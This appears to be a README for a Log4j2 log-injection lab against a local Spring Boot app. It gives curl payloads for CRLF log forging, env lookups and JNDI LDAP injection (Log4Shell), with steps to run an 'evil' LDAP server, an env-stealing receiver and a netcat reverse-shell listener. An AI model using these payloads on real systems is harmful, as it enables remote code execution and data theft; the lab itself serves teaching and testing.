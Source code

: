 # Log Injection with Spring Boot and Log4J2

## Usage

- Run

```shell
./gradlew bootRun
```

- Request

```shell
curl http://localhost:8080/\?name\=Frodon
```

## Hack

### Using CRLF injection

```shell
curl http://localhost:8080/\?name\=Marty%0d%0a2023-09-08%2010%3A40%3A01.108%20DEBUG%202175773%20---%20%5Bnio-8080-exec-1%5D%20n.e.d.HelloController%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3A%20You%20have%20been%20pwed%0A
```

### Using date lookup

Date lookup ``${date:yyyyMMdd-HHmmss}``:

```shell
curl http://localhost:8080/\?name\=%24%7Bdate%3AyyyyMMdd-HHmmss%7D
```

### Using env lookup

Env lookup ``${env:USER}``:

```shell
curl http://localhost:8080/\?name\=%24%7Benv%3AUSER%7D
```

### Using JNDI Injection + LDAP (OpenKeyPassExploit)

- Run the evil ldap server

```shell
javac evil/ldap/OpenKeyPassExploit.java
python evil/ldap/server.py OpenKeyPassExploit
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (StealEnvUserNameExploit)

- Run the evil ldap & receiver server

```shell
javac evil/ldap/StealEnvUserNameExploit.java
python evil/ldap/server.py StealEnvUserNameExploit
python evil/receiver/server.py
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (ReverseShellExploit)

- Run the evil ldap

```shell
javac evil/ldap/ReverseShellExploit.java
python evil/ldap/server.py ReverseShellExploit
```

- Listening for incoming (evil)

```shell
nc -lvp 9001
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

